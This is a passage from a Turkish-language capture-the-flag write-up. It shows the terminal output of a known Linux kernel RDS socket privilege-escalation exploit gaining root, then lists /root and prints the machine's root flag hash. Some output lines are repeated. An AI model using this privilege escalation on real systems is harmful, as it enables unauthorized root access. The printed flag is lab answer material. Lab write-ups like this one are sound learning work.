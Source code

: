 ```text
 [+] Resolved default_security_ops to 0xffffffff81a523e0
 [+] Resolved cap_ptrace_traceme to 0xffffffff8125db60
 [+] Resolved commit_creds to 0xffffffff810852b0
 [+] Resolved prepare_kernel_cred to 0xffffffff81085780
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xffffffff81ce8df0
 [+] Resolved default_security_ops to 0xffffffff81a523e0
 [+] Resolved cap_ptrace_traceme to 0xffffffff8125db60
 [+] Resolved commit_creds to 0xffffffff810852b0
 [+] Resolved prepare_kernel_cred to 0xffffffff81085780
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
whoami
root
```

İşte sistemde artık root uz. Bundan sonra root dizinine gidip flagimizi alabiliriz.

```text
cd /root
ls -al
total 32
drwx------  4 root root 4096 Apr 14  2018 .
drwxr-xr-x 22 root root 4096 Apr 13  2018 ..
drwx------  2 root root 4096 Apr 13  2018 .aptitude
-rw-------  1 root root   82 Jul 31 07:44 .bash_history
-rw-r--r--  1 root root 3106 Apr 23  2010 .bashrc
drwxr-xr-x  2 root root 4096 Apr 14  2018 .cache
-rw-r--r--  1 root root  140 Apr 23  2010 .profile
-rw-r--r--  1 root root   33 Apr 14  2018 root.txt
cat root.txt
8f420533b79076cc99e9f95a1a4e5568
```

Bu makine beni bayaaaa zorladı fakat bi okadarda çok şey öğretti. Umarım faydalı olmuştur. Başarılar dilerim.
